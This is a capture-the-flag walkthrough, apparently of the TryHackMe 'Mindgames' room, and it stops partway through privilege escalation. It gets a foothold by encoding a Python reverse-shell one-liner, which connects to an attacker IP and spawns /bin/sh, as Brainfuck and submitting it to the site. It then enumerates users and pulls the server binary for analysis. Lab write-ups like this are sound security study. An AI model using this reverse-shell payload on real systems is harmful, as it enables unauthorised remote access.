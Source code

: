 - running an initial nmap scan i foudn that port 80 and 22 were open
- navigating to the webpage, there were a couple of code snippets to run, the and the coding language was brainfuck
- decoding the brainfuck code samples, i found they were written in python (ex// print('Hello, World')
- i used this python code
```python
import socket,os,pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.91.174",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```
- pasted it into a brainfuck code generator, and pasted the generated code into the website
- i got a reverse shell on the site
```
$ whoami
mindgames

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
mindgames@mindgames:~/webserver$
```
- i cded into midngames home directory, which is where user.txt was located
- going up the parent home directory, i found one other user, tryhackme
```
mindgames@mindgames:/home$ ls
mindgames  tryhackme
```
- in order to escalate to root, I would usually use commands such as `sudo -l` but since this is a reverse shell and i don't have a password, we're going to need a different method
- the one hint is to enumerate harder, so i decided against bruteforcing ssh passwords
- instead i cded back into /webserver in mindgames home directory
```
mindgames@mindgames:~/webserver$ ls -la
ls -la
total 7032
drwxrwxr-x 3 mindgames mindgames    4096 May 11  2020 .
drwxr-xr-x 6 mindgames mindgames    4096 May 11  2020 ..
drwxrwxr-x 2 mindgames mindgames    4096 May 11  2020 resources
-rwxrwxr-x 1 mindgames mindgames 7188315 May 11  2020 server
```
- the resources folder contained the index stysheet and js code, all of which are accessible from the webpage itself so I didn't bother investigating those through the shell
- instead i focused on the gigantic server file
```
mindgames@mindgames:~/webserver$ file server
server: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, not stripped
```
- yay...
- transfered the files over
```python3
mindgames@mindgames:~/webserver$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

mymachine > wget http://10.10.24.153:8000/server
```
- running file on my attack machine, it showed the build id which seemed a bit unusual
```
└─$ file server
server: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, Go BuildID=6eWZXU8dxYsVcbX8M-_t/L7HAoBGFkn5le6fY7orV/EsVJ-L3djclt6TZ91pnM/Yqf5bdBbhM5qHpYIoY3Y, not stripped
```
- i used `readelf -a server` to analyze the file further, and found this string at the bottom
```
description data: 36 65 57 5a 58 55 38 64 78 59 73 56 63 62 58 38 4d 2d 5f 74 2f 4c 37 48 41 6f 42 47 46 6b 6e 35 6c 65 36 66 59 37 6f 72 56 2f 45 73 56 4a 2d 4c 33 64 6a 63 6c 74 36 54 5a 39 31 70 6e 4d 2f 59 71 66 35 62 64 42 62 68 4d 35 71 48 70 59 49 6f 59 33 59
```
- decoding it, i found that it was identical to the build id `6eWZXU8dxYsVcbX8M-_t/L7HAoBGFkn5le6fY7orV/EsVJ-L3djclt6TZ91pnM/Yqf5bdBbhM5qHpYIoY3Y`
- 


